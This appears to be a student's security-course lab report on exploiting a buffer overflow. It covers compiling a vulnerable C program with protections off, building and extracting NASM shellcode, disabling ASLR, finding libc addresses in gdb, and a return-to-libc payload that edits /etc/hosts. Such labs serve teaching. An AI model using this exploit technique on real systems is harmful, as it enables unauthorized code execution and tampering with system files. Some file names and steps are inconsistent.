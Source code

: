 # Lab #1,21110058, CAO KHẢI MINH, INSE330380E_02FIE

# Task 1: **Software buffer overflow attack**
**Question 1**: Compile asm program and C program to executable code. 

\- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 

 You are free to choose Code Injection or Environment Variable approach to do. 

\- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

## **I. Set up the C program:**

### 1. Create a C file named `vuln.c`:
```sh
nano vuln.c
```
![image-20241104091628712](./SecLab/image-20241104091628712.png)<br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 3. Compile the newly written C file with `gcc`:

```sh
gcc vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2
```

</br>

## **II. Set up the NASM program:**

### 1. Create a NASM file named `lab1.nasm`:

```sh
nano attackCode.nasm
```

<img width="500" alt="Screenshot" src="https://github.com/CKMPeter/Information-Sec/blob/main/SecLab/attackCode.png?raw=true"><br>

After which use `crtl` +` o` to save ad `crtl`+`x` to exit.

### 2. **Compile and Link the newly written NASM file**:

#### a. Compile the file:

```sh
nasm -f elf32 -o lab1.o lab1.nasm
```

**`-f elf32`**: This flag specifies the output format. In this case, it's generating a 32-bit **ELF**

**`-o attackCode.o`**: This specifies the output file's name. The resulting object file will be named `attackCode.o`

</br>

#### b. Link the file to an executable:

```sh
ld -m elf_i386 -o lab1 lab1.o
```

</br>

#### c. Generate the `shellcode` from the executable:

```sh
objdump -d lab1 | grep '[0-9a-f]:' | grep -oP '\s\K[0-9a-f]+' | tr -d '\n' | sed 's/\(..\)/\\x\1/g'
```

**`objdump -d attackCode`**:

- Disassembles the binary file (`attackCode`) and shows its assembly instructions along with their corresponding machine code (opcode).

**`grep '[0-9a-f]:'`**:

- Filters out the lines from `objdump` output that contain opcodes (which are hexadecimal values) by looking for lines that have a hexadecimal number followed by a colon (`:`). These are typically the lines with the memory addresses and opcodes.

**`grep -oP '\s\K[0-9a-f]+'`**:

- This command extracts the hexadecimal opcodes from the filtered lines using a regular expression.

- ```sh
  \s\K[0-9a-f]+
  ```

  `\s`: Looks for a space before the opcodes.

  `\K`: Ignores everything before the opcodes (the memory addresses).

  `[0-9a-f]+`: Matches one or more hexadecimal characters (i.e., the machine code).

**`sed 's/\(..\)/\\x\1/g'`**:

- Uses `sed` (stream editor) to format the opcodes as shellcode by adding `\x` before each byte.
- `s/\(..\)/\\x\1/g`: Matches every two hexadecimal characters (which make up a byte) and adds `\x` before them.

</br>

#### d. Total summary of process:

![image-20241104092251134](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092251134.png)

after running the `objdump` command you will get the shellcode to inject into the vuln program.

</br>

## III. EXECUTE THE ATTACK:

### 1. turn off ASLR (Address Space Layout Randomization):

![image-20241104092449640](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092449640.png)

### 2. create an environment variable in Linux with the path of file lab1.asm:

![image-20241104092724884](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104092724884.png)

### 3. use gdb:

![image-20241104093358327](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104093358327.png)

0xf7e50db0: Address of libc_system
0xf7e449e0: Address of exit to avoid crashing
0xffffd939: Address of env variable

### 4. Attack File:

```sh
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x39\xd9\xff\xff')")
```

![image-20241104095520665](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20241104095520665.png)

after doing, so you would use

```
sudo cat /etc/hosts 
```

to see the newly added host.
